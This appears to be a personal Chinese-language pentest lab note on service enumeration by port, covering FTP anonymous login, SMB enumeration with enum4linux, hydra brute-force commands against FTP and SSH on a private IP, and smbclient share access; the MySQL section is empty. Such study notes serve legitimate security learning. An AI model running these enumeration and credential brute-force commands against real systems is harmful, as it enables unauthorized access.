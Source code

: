端口信息

[TOC]

#### ftp

```
登录命令。
ftp url
```

ftp-anon:Anonymous FTP login alowed

说明可以用Anonymous登录。不需要密码。

![1710389239586](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1710389239586.png)

```
get note可以获得一些信息。
```

#### smb

```
enum4linux -a 10.4.7.132
探查相关信息。
```

![1710389435195](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1710389435195.png)

网上大神的裁剪方法

```
cat username1.txt | cut -d '\' -f2 | cut -d ' ' -f1 > username1.txt
```

![1710389467905](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1710389467905.png)

再使用 hydra 爆破。命令可能不一样。hydra -L是用户名，-P是密码。

```
hydra -L username1.txt -P username1.txt -e nsr 10.4.7.132 ftp

hydra -L username1.txt -P username1.txt -e nsr 10.4.7.132 ssh

```

爆破出来就可以登录。



或者

smbclient   此工具有用。

smbclient //192.168.56.103/share$

登录。

#### mysql
